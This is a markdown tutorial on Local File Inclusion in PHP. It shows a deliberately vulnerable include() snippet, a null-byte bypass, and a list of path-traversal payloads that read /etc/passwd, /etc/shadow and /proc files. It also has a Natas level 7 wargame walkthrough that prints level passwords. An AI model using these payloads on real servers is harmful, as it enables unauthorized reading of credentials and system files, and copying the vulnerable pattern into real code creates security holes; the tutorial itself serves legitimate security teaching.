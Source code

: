 # Local File Inclusion

 > Local File Inclusion (also known as LFI) allows an attacker to include files in server-side through the web browser. File inclusions are part of every advanced server-side scripting language on the web.LFI is commonly found to affect web applications that rely on a scripting runtime. This occurs mainly due to a bad input validation mechanism, wherein the user’s input is passed to the file include commands without proper validation.

## Impact
A successful LFI may result in compromise of the system, data leakage etc. The attacker can read, write, download files and can also run arbitrary codes with privileges of the web server.

### Local file inclusion in PHP:

Consider an example as follows where we can apply this attack.
http://victim_site/abc.php?file=userinput.txt
The value of “file” parameter is taken into the following PHP code, and the file is included:
```php
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("pages/$file");
   }
?>
```
An attacker may give malicious input for the "file" parameter which may give unauthorized files in that directory, he can also change the directories by using characters like "../".He can access the user credentials by giving input as "../../../../etc/passwd".In some cases where the file extension is added by default, we can avoid it by adding ***null byte terminator*** " %00".Any character after this special character will be ignored.

Suppose that the input given is taken by the following code and the default extension being set is “.php”.
```php
<?php
“include/”.include($_GET[‘testfile’].”.php”);
?>
```

by giving file=../../../../etc/passwd%00 we can access the file by passing the ".php" extension.

An attacker can also download files by changing the file names. For example
<br>URL: example/?download=broucher.pdf
</br>The attacker may change the broucher.pdf to any other file such as passwords.txt,users.txt etc.


## Explore it yourself
Make a PHP file with the code given above and explore different possibilities of the vulnerability.
### Somepayloads :
- ../../../../etc/passwd/etc/issue
- ../../../../etc/passwd
- ../../../../etc/passwd/etc/shadow
- ../../../../etc/passwd/etc/group
- ../../../../etc/passwd/etc/hosts
- ../../../../etc/passwd/etc/motd
- ../../../../etc/passwd/etc/mysql/my.cnf
- ../../../../proc/self/environ
- ../../../../proc/version
- ../../../../proc/cmdline
- ../../../../proc/sched_debug
- ../../../../proc/mounts
- ../../../../proc/net/arp
- ../../../../proc/net/route
- ../../../../proc/net/tcp
- ../../../../proc/net/udp

# Let's try a challenge  
 NATAS 7 :
  - USERNAME : natas7
  - PASSWORD : 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
  ![natas7](natas7.1.png)

The site is very simple only with two buttons, but once when you click on Home or About the URL changes as follows :

  ![natas7](natas7.2.png)</br>
  ![natas7](natas7.3.png)
 
 It looks like the PHP file is including the file given as page, when we check the source code we get the hint as  
 hint: password for webuser natas8 is in /etc/natas_webpass/</br></br>
  ![natas7](natas7.4.png)
  
  So, let's try to include that file in the URL 
 URL : index.php?page=/etc/natas_webpass/natas8
On including this file we get the password for the next level on the screen </br></br>
password : DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe</br></br>
![natas7](natas7.5.png)
</br></br>
This is a basic example of Local file inclusion vulnerability.


